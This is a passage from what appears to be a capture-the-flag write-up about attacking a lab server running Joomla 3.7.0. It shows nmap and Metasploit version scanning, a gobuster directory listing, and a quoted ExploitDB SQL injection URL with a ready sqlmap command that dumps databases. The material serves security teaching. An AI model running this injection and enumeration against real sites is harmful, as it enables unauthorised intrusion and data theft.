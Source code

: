 ```shell-session
|_http-title: Home
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```

Let's check if we can get anything on metasploit:
```shell-session
$ sudo msfconsole -q
msf6 > search joomla
...
10  auxiliary/scanner/http/joomla_version
...

msf6 > use 10
msf6 auxiliary(scanner/http/joomla_version) > setg RHOSTS TARGET_IP
RHOSTS => TARGET_IP
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> What is the Joomla version?
> 
> Answer: `3.7.0`

A quick search on ExploitDB for Joomla 3.7 shows a nice exploit that we can use: https://www.exploit-db.com/exploits/42033

```txt

URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Let's also do some directory enumeration while we're at it:
```shell-session
$ gobuster dir -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -o enum_gobuster.txt
/media                (Status: 301) [Size: 233] [--> http://TARGET_IP/media/]
/templates            (Status: 301) [Size: 237] [--> http://TARGET_IP/templates/]
/images               (Status: 301) [Size: 234] [--> http://TARGET_IP/images/]
/modules              (Status: 301) [Size: 235] [--> http://TARGET_IP/modules/]
/bin                  (Status: 301) [Size: 231] [--> http://TARGET_IP/bin/]
/plugins              (Status: 301) [Size: 235] [--> http://TARGET_IP/plugins/]
/includes             (Status: 301) [Size: 236] [--> http://TARGET_IP/includes/]
/language             (Status: 301) [Size: 236] [--> http://TARGET_IP/language/]
/components           (Status: 301) [Size: 238] [--> http://TARGET_IP/components/]
/cache                (Status: 301) [Size: 233] [--> http://TARGET_IP/cache/]
/libraries            (Status: 301) [Size: 237] [--> http://TARGET_IP/libraries/]
/tmp                  (Status: 301) [Size: 231] [--> http://TARGET_IP/tmp/]
/layouts              (Status: 301) [Size: 235] [--> http://TARGET_IP/layouts/]
/administrator        (Status: 301) [Size: 241] [--> http://TARGET_IP/administrator/]
/cli                  (Status: 301) [Size: 231] [--> http://TARGET_IP/cli/]
```
